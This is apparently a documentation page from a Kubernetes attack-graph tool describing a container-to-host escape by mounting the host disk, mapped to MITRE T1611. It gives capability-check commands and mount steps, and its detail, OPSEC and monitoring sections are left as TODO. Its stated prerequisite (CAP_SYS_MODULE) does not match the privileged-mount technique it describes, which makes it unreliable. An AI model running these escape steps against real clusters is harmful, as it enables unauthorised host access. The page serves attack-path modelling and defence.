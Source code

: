 # CE_PRIV_MOUNT

Mount the host disk and gain access to the host via arbitrary filesystem write

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

TODO TODO

## Prerequisites

Execution within a container process with the `CAP_SYS_MODULE` capability enabled.

See the [example pod spec](../../test/setup/test-cluster/attacks/CE_PRIV_MOUNT.yaml).

## Checks

From within a running container, determine whether it is running with `CAP_SYS_MODULE`:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff:	00000000a80425fb

# Decode the capabilities (on current box or offline) and check for CAP_SYS_MODULE
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=00000000a80425fb | grep cap_sys_module
```

## Exploitation

Find the disks visible to our container process:

```bash
apt update && apt install fdisk
fdisk -l 
# -> /dev/vda1
```
Mount the disks into the container:

```bash
mkdir -p /mnt/hostfs
mount /dev/vda1 /mnt/hostfs
ls -lah /mnt/hostfs/
```

Now TODO TODO

## OPSEC Considerations

TODO TODO

## Defences

+ Implement least privilege
 +Avoid running privileged pods.

## Monitoring

TODO TODO

## Calculation

[EscapePrivMount](../../pkg/kubehound/graph/edge/escape_priv_mount.go)

## References:

+ [HackTricks Docker Breakout](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)


